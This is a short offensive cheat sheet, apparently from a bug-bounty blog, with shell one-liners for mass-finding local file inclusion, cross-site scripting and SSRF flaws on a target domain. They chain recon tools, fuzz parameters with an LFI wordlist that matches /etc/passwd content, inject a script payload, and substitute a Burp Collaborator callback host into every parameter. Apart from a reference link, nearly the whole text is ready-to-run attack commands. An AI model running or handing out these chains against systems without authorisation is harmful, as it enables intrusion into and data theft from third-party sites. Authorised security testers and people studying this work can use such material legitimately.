 ## LFI Oneliner:
findomain -t example.com -q | waybackurls |gf lfi | qsreplace FUZZ | while read url ; do ffuf -u $url -mr “root:x” -w ~/wordlist/LFI.txt ; done

## XSS Oneliner:

cat file.txt | gf xss | grep ‘source=’ | qsreplace ‘”><script>confirm(1)</script>’ | while read host do ; do curl –silent –path-as-is –insecure “$host” | grep -qs “<script>confirm(1)” && echo “$host 33[0;31mVulnerablen”;done

## SSRF Oneliner:
findomain -t example.com -q | httpx -silent -threads 1000 | gau | grep “=” | qsreplace http://YOUR.burpcollaborator.net

## RCE Oneliner:


## References:
https://medium.com/@theUnixe/find-ssrf-lfi-xss-using-httpx-waybackurls-gf-gau-qsreplace-d90f59eb5055
